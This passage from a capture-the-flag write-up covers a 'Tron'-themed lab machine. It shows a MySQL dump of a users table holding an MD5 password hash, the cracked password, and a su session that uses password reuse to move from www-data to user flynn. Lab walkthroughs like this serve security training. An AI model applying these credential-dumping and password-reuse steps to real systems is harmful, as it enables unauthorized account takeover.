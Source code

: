     Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

    Oracle is a registered trademark of Oracle Corporation and/or its
    affiliates. Other names may be trademarks of their respective
    owners.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    mysql> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | tron               |
    +--------------------+
    2 rows in set (0.02 sec)

    mysql> use tron
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Database changed
    mysql> show tables;
    +----------------+
    | Tables_in_tron |
    +----------------+
    | users          |
    +----------------+
    1 row in set (0.00 sec)

    mysql> select * from users;
    +----+----------+----------------------------------+
    | id | username | password                         |
    +----+----------+----------------------------------+
    |  1 | flynn    | edc621628f6d19a13a00fd683f5e3ff7 |
    +----+----------+----------------------------------+
    1 row in set (0.00 sec)
    ```
---

### Crack the password. What is it?
- **Answer:** @computer@
- **Steps to Reproduce:** 
    - Use [Hashes decrypt](https://hashes.com/en/decrypt/hash)
    - `edc621628f6d19a13a00fd683f5e3ff7:@computer@`

---

### Use su to login to the newly discovered user by exploiting password reuse. 
- **Steps to Reproduce:** 
    ```bash
    www-data@light-cycle:/var/www/TheGrid/includes$ id       
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    www-data@light-cycle:/var/www/TheGrid/includes$ su flynn
    Password: 
    flynn@light-cycle:/var/www/TheGrid/includes$ id
    uid=1000(flynn) gid=1000(flynn) groups=1000(flynn),109(lxd)
    ```
---
